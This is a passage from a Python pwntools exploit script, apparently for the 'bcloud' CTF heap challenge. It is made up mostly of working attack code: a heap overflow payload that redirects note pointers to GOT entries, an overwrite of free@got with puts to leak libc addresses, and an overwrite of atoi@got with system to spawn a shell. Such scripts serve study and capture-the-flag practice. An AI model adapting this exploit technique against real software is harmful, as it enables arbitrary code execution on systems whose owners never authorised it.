 ```python

    if malloc_size - 4 > 0:

        p.sendlineafter('Input the content:\n', '')



    #gdb.attach(p)
# set notesize [0] = notesize [1] = notesize [2] = 16
    # set notelist[0] = free@got, notelist[1]= notelist[2]=atoi@got

    p.sendlineafter('option--->>', '1')

    p.sendlineafter('Input the length of the note content:\n', str(1000))



    payload = p32(16) * 3 + (notelist_addr - notesize_addr - 12) * 'a' + p32(

        bcloud.got['free']) + p32(bcloud.got['atoi']) * 2

    p.sendlineafter('Input the content:\n', payload)



    # overwrite free@got with puts@plt

    p.sendlineafter('option--->>', '3')

    p.sendlineafter('Input the id:\n', str(0))

    p.sendlineafter('Input the new content:\n', p32(bcloud.plt['puts']))



    # leak atoi addr by fake free

    p.sendlineafter('option--->>', '4')

    p.sendlineafter('Input the id:\n', str(1))

    atoi_addr = u32(p.recv(4))

    libc_base = atoi_addr - libc.symbols['atoi']

    system_addr = libc_base + libc.symbols['system']

    log.success('libc base addr: ' + hex(libc_base))



    # overwrite atoi@got with system

    p.sendlineafter('option--->>', '3')

    p.sendlineafter('Input the id:\n', str(2))

    p.sendlineafter('Input the new content:\n', p32(system_addr))



    # get shell

```